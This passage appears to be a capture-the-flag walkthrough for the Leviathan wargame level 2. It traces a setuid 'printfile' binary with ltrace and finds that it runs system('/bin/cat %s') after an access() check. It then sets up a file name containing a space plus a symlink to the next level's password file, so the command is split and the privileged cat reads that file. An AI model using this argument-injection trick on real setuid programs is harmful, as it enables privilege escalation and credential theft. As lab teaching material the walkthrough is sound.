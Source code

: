 Let's use [[ltrace]]  - a library call tracer to see all called libraries of the program printfile. 
```bash
ltrace ./printfile /tmp/rwxbeny/flag

__libc_start_main(0x80491e6, 2, 0xffffd684, 0 <unfinished ...>

access("/tmp/rwxbeny/flag", 4)                   = -1

puts("You cant have that file..."You cant have that file...

)               = 27

+++ exited (status 1) +++
```

With ltrace we can see that the program calls the access function with our given parameter.
let's see how access works.

```C
access()  checks  whether the calling process can access the file path‐name.  If pathname is a symbolic link, it is dereferenced.
```

Great. let's give it a valid path to see the flow of library calls

```C
leviathan2@gibson:~$ ltrace ./printfile /tmp/rwxbeny/test 
__libc_start_main(0x80491e6, 2, 0xffffd674, 0 <unfinished ...>
access("/tmp/rwxbeny/test", 4)                   = 0
snprintf("/bin/cat /tmp/rwxbeny/test", 511, "/bin/cat %s", "/tmp/rwxbeny/test") = 26
geteuid()                                        = 12002
geteuid()                                        = 12002
setreuid(12002, 12002)                           = 0
system("/bin/cat /tmp/rwxbeny/test"Hello!

 <no return ...>

--- SIGCHLD (Child exited) ---

<... system resumed> )                           = 0

+++ exited (status 0) +++
```

We see that once given a file with the right permissions, the program then continues to set the effective uid to 12002 and call /bin/cat to read the given file.

okay, lets try to give 'access()' a path with a file name that has a space in between. This could cause a malfunction which on the one hand access() will have the permission to open the file (Since we created the file), and on the other hand the file name will be constructed from the name of the flag file.

```ruby
mkdir /tmp/rwxbeny
cd /tmp/rwxbeny
ln -s /etc/leviathan_pass/leviathan3 flag
echo 123 >> "flag me"
```

